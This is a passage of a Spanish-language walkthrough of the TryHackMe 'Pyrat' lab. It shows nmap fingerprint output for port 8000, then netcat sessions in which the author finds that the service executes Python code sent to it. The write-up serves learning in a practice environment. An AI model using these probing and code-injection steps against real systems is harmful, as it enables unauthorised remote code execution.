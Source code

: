 ```
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.94SVN%I=7%D=10/5%Time=670123AF%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,1,"\n")%r(GetRequest,1A,"name\x20'GET'\x20is\x20not\x20de
SF:fined\n")%r(X11Probe,2D,"source\x20code\x20string\x20cannot\x20contain\
SF:x20null\x20bytes\n")%r(FourOhFourRequest,22,"invalid\x20syntax\x20\(<st
SF:ring>,\x20line\x201\)\n")%r(Socks4,2D,"source\x20code\x20string\x20cann
SF:ot\x20contain\x20null\x20bytes\n")%r(HTTPOptions,1E,"name\x20'OPTIONS'\
SF:x20is\x20not\x20defined\n")%r(RTSPRequest,1E,"name\x20'OPTIONS'\x20is\x
SF:20not\x20defined\n")%r(DNSVersionBindReqTCP,2D,"source\x20code\x20strin
SF:g\x20cannot\x20contain\x20null\x20bytes\n")%r(DNSStatusRequestTCP,2D,"s
SF:ource\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(Hel
SF:p,1B,"name\x20'HELP'\x20is\x20not\x20defined\n")%r(LPDString,22,"invali
SF:d\x20syntax\x20\(<string>,\x20line\x201\)\n")%r(SIPOptions,22,"invalid\
SF:x20syntax\x20\(<string>,\x20line\x201\)\n")%r(LANDesk-RC,2D,"source\x20
SF:code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(NotesRPC,2D,
SF:"source\x20code\x20string\x20cannot\x20contain\x20null\x20bytes\n")%r(J
SF:avaRMI,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\x20byt
SF:es\n")%r(afp,2D,"source\x20code\x20string\x20cannot\x20contain\x20null\
SF:x20bytes\n")%r(giop,2D,"source\x20code\x20string\x20cannot\x20contain\x
SF:20null\x20bytes\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Accedemos al sitio web por el puerto 8000, pero la única pista es el mensaje de "*Try a more basic connection!*":
![](../assets/img/pyrat-tryhackme-writeup/1.png)

Probamos a realizar una conexión con **netcat**, diría que es lo más "básico", lanzamos un "**test**" y vemos que nos devuelve un mensaje que nos llama mucho la atención, ya que es *clavadito* a los mensajes de error de **Python**:
```
> nc 10.10.216.28 8000
test
name 'test' is not defined
```

Intentamos enviar comandos con **Python** y vemos que el 2º si que lo ejecuta:
```
> echo "python3 --version" | nc 10.10.216.28 8000
name 'python3' is not defined
id

> echo "print('jelou!')" | nc 10.10.216.28 8000
jelou!

```
